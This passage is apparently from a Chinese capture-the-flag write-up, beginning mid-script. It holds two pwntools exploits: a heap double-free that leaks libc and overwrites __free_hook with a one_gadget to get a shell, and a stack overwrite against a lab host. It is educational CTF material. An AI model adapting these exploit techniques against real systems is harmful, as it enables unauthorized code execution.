 ```python
    r.send(content)

def dele(idx):
    r.sendline('4')
    r.recvuntil('please input note title: ')
    r.send(idx)

r.recvuntil('5. Exit\n')

add('a' * 8, 24, 'a' * 24)

dele('a' * 8)
dele('a' * 8)
add('\x00' * 8, 24, 'h' * 24)
add('c' * 8, 256, 'r' * 256)
add('d' * 8, 24, 'p' * 24)#separate top chunk

dele('c' * 8)
#gdb.attach(r)

show('\x00' * 8)

r.recvuntil('note content: ')
libc_base = u64(r.recv(6).ljust(8,'\x00')) - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))

dele('d' * 8)
add('e' * 8, 256, 'e' * 256)
add('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))
#gdb.attach(r)
edit('\x00' *8 + '\n', p64(libc_base + one_gadget) + '\n')

dele('\x00' * 8)
r.interactive()
```





# when_did_you_born

攻防世界原题，简单栈覆盖。

## exp

```python
from pwn import *

r = remote("192.168.40.10", 24032)

payload = 'a' * (0x20 - 0x18) + p64(1926)

r.recvuntil("What's Your Birth?\n")
r.sendline("2000")

r.recvuntil("What's Your Name?\n")
r.sendline(payload)

print r.recv()
print r.recv()
```
